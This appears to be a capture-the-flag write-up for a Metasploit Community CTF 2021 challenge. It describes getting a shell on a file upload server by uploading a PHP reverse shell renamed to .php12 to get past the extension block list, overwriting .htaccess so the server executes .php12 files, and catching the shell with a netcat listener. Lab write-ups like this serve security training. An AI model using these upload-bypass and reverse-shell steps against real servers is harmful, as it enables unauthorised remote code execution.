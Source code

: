 ```yaml
---
layout: post
title:  "9 of Spades port 20055"
date:   2021-12-05 20:27:45 +0000
categories: metasploitcommctf21
---
```



Navigating to 127.0.0.1:20055, we are met with a page for "Grant's Secure File Upload Server".

![Untitled](Untitled.png){:class="img-responsive"}

As the page states that the flag is located at root, a shell will likely be needed to access the root folder and as the website uses php, a php reverse shell would be a safe bet.

`cp /usr/share/webshells/php/php-reverse-shell.php`

![Untitled](Untitled%201.png){:class="img-responsive"}

Change the $ip to the local IP address of the attacking machine, as the targets are on the same network.

![Untitled](Untitled%202.png){:class="img-responsive"}

Choose an available port. 443 was used as it is usually available for web shells.

Now we have created our shell, we need to find a way to upload it.

The source code for *upload.php* shows that many php file extensions have been blocked. We will need to use a different extension to bypass the block.

![Untitled](Untitled%203.png)

![Untitled](Untitled%204.png)

Changing the file extension from *php* to *php12* worked to bypass the block.

However, when attempting the access the file, we are now met with the source code being printed to the page rather than being executed by the server.

This will need to be included in the .htaccess file for the local folder.

Thankfully, this file upload allows for rewriting of existing files. We can just create a new .htaccess file with the necessary configuration to allow the execution of .php12 files!

`AddType application/x-httpd-php .php12`

When trying to access the reverse shell again we are now given the following errors:

![Untitled](Untitled%205.png)

This means the server has executed the shell but we need to set up the listener on the attacking machine.

`nc -lvnp 443`

![Untitled](Untitled%206.png)

The flag is visible in the `ls` output!

```bash
$ md5sum flag.png
270d4a0a9abc1c048102ff8b91f10927  flag.png
```